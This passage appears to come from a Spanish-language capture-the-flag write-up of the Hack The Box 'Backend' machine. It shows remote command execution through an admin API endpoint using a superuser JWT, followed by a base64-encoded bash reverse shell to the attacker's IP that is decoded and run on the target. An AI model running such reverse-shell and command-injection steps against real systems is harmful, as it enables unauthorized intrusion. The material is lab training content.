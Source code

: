 <img src="/writeups/assets/img/Backend-htb/8.png" alt="">

Puedo ejecutar comandos

```null
curl -s -X GET http://10.10.11.161/api/v1/admin/exec/whoami -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjk3ODEwODk4LCJpYXQiOjE2OTcxMTk2OTgsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImRlYnVnIjp0cnVlLCJndWlkIjoiMzZjMmU5NGEtNDI3MS00MjU5LTkzYmYtYzk2YWQ1OTQ4Mjg0In0.D2KDtJaiztxRt_7Ud_LarXC4Bm5MX2hgOvtBlHa5pig" | jq
"htb"
```

Creo una cadena en base64 que se encargue de enviarme una reverse shell

```null
echo -n "bash -c 'bash -i >& /dev/tcp/10.10.16.4/443 0>&1'" | base64 -w 0
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi40LzQ0MyAwPiYxJw==
```

En el endpoint le hago el decode y ejecuto

```null
curl -s -X GET 'http://10.10.11.161/api/v1/admin/exec/echo%20YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi40LzQ0MyAwPiYxJw==|base64%20-d%20|bash' -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjk3ODEwODk4LCJpYXQiOjE2OTcxMTk2OTgsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImRlYnVnIjp0cnVlLCJndWlkIjoiMzZjMmU5NGEtNDI3MS00MjU5LTkzYmYtYzk2YWQ1OTQ4Mjg0In0.D2KDtJaiztxRt_7Ud_LarXC4Bm5MX2hgOvtBlHa5pig" | jq
```
